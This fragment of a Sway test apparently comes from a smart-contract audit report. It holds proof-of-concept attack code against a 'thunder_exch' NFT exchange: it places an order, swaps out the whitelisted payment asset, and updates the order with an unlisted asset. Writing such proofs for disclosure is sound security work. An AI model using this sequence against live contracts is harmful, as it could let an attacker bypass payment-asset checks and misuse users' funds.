 ```sway 
    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order);

    //now remove the whitelist token and add another one 

    asset_mngr.remove_asset(0);

    let asset_to_add1 = AssetId::from(0x7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777);
    
    asset_mngr.add_asset(asset_to_add1);

    //call update with new paymentAsset

    pool.update_balance(asset_to_add1, 100u64);

    let maker_order1 = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add1,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };

    thunder_exch.update_order(maker_order1);

}
```
